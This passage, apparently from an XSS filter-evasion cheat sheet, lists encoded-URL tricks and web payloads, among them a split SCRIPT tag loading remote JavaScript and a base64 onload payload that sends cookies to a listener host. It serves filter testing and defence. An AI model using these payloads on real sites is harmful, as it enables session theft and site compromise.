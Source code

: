     `<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="httx://xss.rocks/xss.js"></SCRIPT>`

## URL string evasion

Assuming "<http://www.google.com/>" is pro grammatically disallowed:

### IP versus hostname

    `<A HREF="http://66.102.7.147/">XSS</A>`

### URL encoding

    `<A HREF="http://%77%77%77%2E%67%6F%6F%67%6C%65%2E%63%6F%6D">XSS</A>`

### Dword encoding

(Note: there are other of variations of Dword encoding - see the IP
Obfuscation calculator below for more details):

    `<A HREF="http://1113982867/">XSS</A>`

### Hex encoding

The total size of each number allowed is somewhere in the neighborhood
of 240 total characters as you can see on the second digit, and since
the hex number is between 0 and F the leading zero on the third hex
quotet is not required):

    `<A HREF="http://0x42.0x0000066.0x7.0x93/">XSS</A>`

### Octal encoding

Again padding is allowed, although you must keep it above 4 total
characters per class - as in class A, class B, etc...:

    `<A HREF="http://0102.0146.0007.00000223/">XSS</A>`

### Base64 encoding

    `<img onload="eval(atob('ZG9jdW1lbnQubG9jYXRpb249Imh0dHA6Ly9saXN0ZXJuSVAvIitkb2N1bWVudC5jb29raWU='))">`

### Mixed encoding

Let's mix and match base encoding and throw in some tabs and newlines -
why browsers allow this, I'll never know). The tabs and newlines only
work if this is encapsulated with quotes:

    `<A HREF="h`  
    `tt  p://6	6.000146.0x7.147/">XSS</A>`

### Protocol resolution bypass

(// translates to <http://> which saves a few more bytes). This is
really handy when space is an issue too (two less characters can go a
long way) and can easily bypass regex like "(ht|f)tp(s)?://" (thanks to
Ozh for part of this one). You can also change the "//" to "\\\\". You
do need to keep the slashes in place, however, otherwise this will be
interpreted as a relative path URL.
